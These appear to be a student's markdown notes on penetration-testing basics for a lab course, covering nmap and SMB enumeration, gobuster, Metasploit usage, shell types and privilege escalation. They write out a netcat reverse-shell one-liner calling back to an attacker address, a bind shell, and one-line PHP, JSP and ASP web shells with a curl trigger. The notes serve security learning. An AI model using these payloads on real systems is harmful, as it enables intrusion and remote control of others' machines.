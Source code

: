 # Pentesting Basics

## Getting a shell
- **types of shell**
	- Reverse Shell
	- Bind Shell
	- Web Shell
- **Netcat**
	- interacting with TCP/UDP ports.
	- **Banner Grabbing** `nc -nv 10.129.42.253 21` or `nmap -sV --script=banner <target>`

## Service Scanning
### Nmap
- `-sC` for more details `-sV` for version `-p-` to scan all ports 
- to run custom script `nmap --script <script name> -p<port> <host>`.
### Attacking Network Services
- **Banner Grabbing** `nmap -sV --script=banner <target>`  
- **FTP**: Nmap scan anonymous authentication is enabled
#### SMB (Server Message Block)
- a prevalent protocol on Windows machines
- some SMB versions may be vulnerable to RCE exploits such as [EternalBlue](https://www.avast.com/c-eternalblue).
- `nmap --script smb-os-discovery.nse -p445 10.10.10.40`
##### Shares
- SMB allows users and administrators to share folders and make them accessible remotely by other users
- `smbclient -N -L \\\\10.129.42.253` when `-L` fir list and `-N` suppresses the password prompt
	- `smbclient \\\\10.129.42.253\\users` connect as guest
	- `smbclient -U bob \\\\10.129.42.253\\users` connect as user bob

## Web Enumeration
- `whatweb 10.129.117.36` 
### Gobuster (or ffuf)
- for dirs/files
```bash
gobuster dir -u http://10.10.10.121/ -w /usr/share/seclists/Discovery/Web-Content/common.txt
```
- for subdomains
```bash
# we can use this repo to dowload wordList
git clone https://github.com/danielmiessler/SecLists
# now Gobuster
gobuster dns -do inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.tx
```
### Web Enumeration Tips (info sources)
- **Banner Grabbing / Web Server Headers**
- **Whatweb**: by command `shell-session
 whatweb 10.10.10.121`
 - **Certificates**
 - **robots.txt**: instruct search engine like google
 - **source code**: by `ctrl+u`
 - 
## Public Exploits
### Finding Public Exploits
- using google with `exploit`  word
- **searchsploit (from exploitDb)**, or other databases like: [Exploit DB](https://www.exploit-db.com/), [Rapid7 DB](https://www.rapid7.com/db/),, [Vulnerability Lab](https://www.vulnerability-lab.com/).

### Metasploit Primer (`msfconsole`)
- Metasploit is a powerful pentesting framework with 
	- built-in exploits
	- reconnaissance/verification scripts
	- the Meterpreter shell
	- post-exploit/pivoting utilities.
- `msfconsole` command to run **Metasploit**
	1 - `search exploit SMB` command to for SMB vuln  
	2 - `use exploit/windows/...` use the exploit 
	3 - `show options` to display and config exploit options
	4 - `set RHOSTS 10.10.10.40` to set params (**RHost** for target and **LHost** of our attacker like `eth0`)
	5- `check` to check if our target is vulnerable
	6- `run` or `exploit` to run the exploit in the end	

# Types of Shells
- to remote access: `ssh` for linux and `WinRm` for windows 

Type of Shell | Method of Communication
|--|--|
`Reverse Shell` |Connects back to our system and gives us control through a reverse connection.
`Bind Shell` | Waits for us to connect to it and gives us control once we do.
`Web Shell`  | Communicates through a web server, accepts our commands through HTTP parameters, executes them, and prints back the output.
## Reverse Shell
- most used
- target connects to us on the listening port
- **netcat** listener on our machine  `nc -lvnp 1234`
- [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) : reverse shell commands, example :
	```bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f
	```
- **lose connection:** have to use the initial exploit again
## Bind Shell
- we connect to the target on the listening port.
- [Payload All The Things](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) : Bind shell commands, example :
	 ```bash
	rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f
	```
- use **netcat** to connect ` nc 10.10.10.1 1234 `

## Upgrading TTY
- we will use the `python/stty`
```bash
python -c 'import pty; pty.spawn("/bin/bash")'
```
- `ctrl+z` to background our shell and get back on our local terminal
- input the command `stty raw -echo`
- input the command `fg` 
- click `Enter`
- fixing size:
	- on our local shell
		 ```bash
		ab2gbl1@htb[/htb]$ echo $TERM
		xterm-256color
		
		ab2gbl1@htb[/htb]$ stty size
		67 318
		 ``` 
	- then on the victim shell
		```bash
		www-data@remotehost$ export TERM=xterm-256color
		www-data@remotehost$ stty rows 67 columns 318
		```

## Web Shell

```bash 
# php
<?php system($_REQUEST["cmd"]); ?>
# jsp
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
# asp
<% eval request("cmd") %>
```
- we should put our script `shell.php` on the **webroot**

Web Server | Default Webroot
|--|--|
`Apache` | /var/www/html/
`Nginx` | /usr/local/nginx/html/
`IIS`  | c:\inetpub\wwwroot\
`XAMPP` | C:\xampp\htdocs\

- then we can access the shell script using 
	```bash
	curl http://SERVER_IP:PORT/shell.php?cmd=id
	```
# Privilege Escalation
- **PrivEsc Checklists**
	- [HackTricks](https://book.hacktricks.xyz/) and [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings)
- **Enumeration Scripts**
	- **Linux:** [LinEnum](https://github.com/rebootuser/LinEnum.git) and [linuxprivchecker](https://github.com/sleventyeleven/linuxprivchecker), 
	- **Windows:** [Seatbelt](https://github.com/GhostPack/Seatbelt) and [JAWS](https://github.com/411Hall/JAWS).
	- **Derver enumeration**: the [Privilege Escalation Awesome Scripts SUITE (PEASS)](https://github.com/carlospolop/privilege-escalation-awesome-scripts-suite),
		> Note: this scripts may trigger anti-virus, better do manual enumeration

- **Kernel Exploits**
- **Vulnerable Software**:  `dpkg -l` or look for `C:\Program Files`
##  **User Privileges**
- **`sudo -l`** : what `sudo` privileges we have
	- sometimes we find result `(user : user) NOPASSWD: /bin/echo` , means this user can run `echo` as **root** without password
	- we can use that `sudo -u user /bin/echo Hello World!` 
- `**sudo su -**`: enter root mode
<!--stackedit_data:
eyJoaXN0b3J5IjpbMTgxOTU5MjE4NiwyNTQ4NTY1MywtMTU4MT
IzNjc1NSwzMjk3MzI1NTEsLTkyODc3MDU1NSwxODk3OTI4NTE2
LC0xMTE4MjIwNDMzLDExMzUwNTI2ODQsLTExNzk3NTEyMTUsLT
E5NjQ5NDM4ODgsMTQ2MjE1MTkzLDY4MTMzMTc0OSw5MjIyNDU1
MDcsMTQxNjU5OTA3MiwtNTcyODQ4MDQxLDE1MzUyMzQ5NjEsND
A4NDI4OTg1LC0xNDc0MjAzNjI5LC0xMDAxMzcwMDQyLC0xNTkz
OTA0MjMyXX0=
-->